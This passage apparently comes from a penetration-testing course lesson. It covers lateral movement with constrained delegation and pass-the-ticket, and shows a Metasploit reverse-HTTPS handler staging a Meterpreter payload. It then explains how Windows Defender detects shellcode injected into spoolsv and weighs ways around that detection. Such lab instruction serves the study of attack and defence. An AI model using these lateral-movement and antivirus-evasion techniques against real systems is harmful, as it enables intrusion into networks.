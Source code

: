 The compiled file (lat.exe) must be uploaded to web01, after which we can invoke it on web01 from the SYSTEM shell. This will leverage the requested TGS we obtained through constrained delegation and perform a pass-the-ticket attack to access the service control manager:

```
PS C:\Windows\system32> c:\inetpub\wwwroot\upload\lat.exe
c:\inetpub\wwwroot\upload\lat.exe
Error in calling StartService: 1053
```

> Listing 46 - Executing the lateral movement code

The 1053 error code indicates that the service manager timed out, which is expected since we did not supply a valid service executable.

When we switch to our payload listener, we find that it started to create a new session, then hung and timed out.

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.131; (UUID: onb58axe) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 2 opened (192.168.119.120:443 -> 192.168.120.131:49763)
```

> Listing 47 - Meterpreter shell is getting caught by Windows Defender

If a Meterpreter session initiates and then hangs before the prompt is presented, the process running the shellcode was terminated early. This is most often either due to incorrect shellcode architecture or because antivirus software caught it.

In this type of situation, it's best to figure out what, exactly, is happening.

We know that our lateral movement attempt performs three actions. First, the properties of SensorService are modified and the service is started. Next, inject.exe executes and copies the shellcode into the spoolsv process. Finally, the shellcode executes inside spoolsv. A new session was started, which indicates that both the service modifications and the code injection went undetected. However, the execution of the Meterpreter shellcode inside spoolsv was stopped.

Using signatures from network packets, Windows Defender and other AV products sometimes detect network traffic associated with setting up a staged Meterpreter session.

Windows Defender can perform inspection of network traffic through the _Microsoft Network Realtime Inspection Service_ (WdNisSvc)[1](https://portal.offsec.com/courses/pen-300-9502/learning/combining-the-pieces-14687/combining-the-pieces-14955#fn-local_id_747-1) and compare it to signatures.

The shellcode evades detection on disk, but not while executed inside spoolsv. This issue cannot be solved through encryption or emulation detection in C#. However, we could attempt to use different payloads until we discover one that bypasses antivirus.

This type of brute force is tedious and could lead to a problem with our lateral movement technique. When Windows Defender detects the Meterpreter executing inside spoolsv, it terminates the process. Since it's a service, it will restart automatically up to two times; after that, it will remain disabled.

Additionally, Windows Defender will trigger an alert based on the SensorService repeatedly interacting with spoolsv. If this happens multiple times, Windows Defender will disable SensorService and mark it for deletion. This approach seems doomed to failure.

